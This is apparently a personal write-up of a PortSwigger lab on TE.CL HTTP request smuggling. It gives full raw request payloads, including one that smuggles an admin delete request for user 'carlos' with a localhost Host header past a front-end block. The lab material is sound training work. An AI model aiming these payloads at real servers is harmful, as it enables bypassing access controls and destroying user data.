 # [Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl)

## Lab

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`.

## Detect TE.CL

- burpsuite active scan: detected http request smuggling after 5 minutes
- burpsuite `HTTP request smuggler` extension: detected TE.CL
- smuggler.py: `[tabprefix1]   : Potential TECL Issue Found`

## Analysis

"Path /admin is blocked" by frontend:

  ```http
  GET /admin HTTP/1.1

  HTTP/1.1 403 Forbidden

  "Path /admin is blocked"
  ```

try to smuggling:

- 1:

  ```http
  POST / HTTP/1.1^M$
  Host: 0af90012033ce26cc02e5e0400440053.web-security-academy.net^M$
  Content-Type: application/x-www-form-urlencoded^M$
  Content-Length: 4^M$
  tRANSFER-ENCODING: chunked^M$
  ^M$
  2d^M$
  GET /admin HTTP/1.1^M$
  Content-Length: 80^M$
  ^M$
  x=^M$
  0^M$
  ^M$
  ```

- 2:

  ```http
  GET / HTTP/1.1
  Host: 0af90012033ce26cc02e5e0400440053.web-security-academy.net

  HTTP/1.1 401 Unauthorized

  Admin interface only available to local users
  ```

## Solutions

bypass the `only available to local users` by the `Host: localhost` header.

```http
POST / HTTP/1.1^M$
Host: 0af90012033ce26cc02e5e0400440053.web-security-academy.net^M$
Content-Type: application/x-www-form-urlencoded^M$
Content-Length: 4^M$
tRANSFER-ENCODING: chunked^M$
^M$
55^M$
GET /admin/delete?username=carlos HTTP/1.1^M$
Host: localhost^M$
Content-Length: 80^M$
^M$
x=^M$
0^M$
^M$
```

```http
GET / HTTP/1.1^M$
Host: 0af90012033ce26cc02e5e0400440053.web-security-academy.net^M$
^M$
```
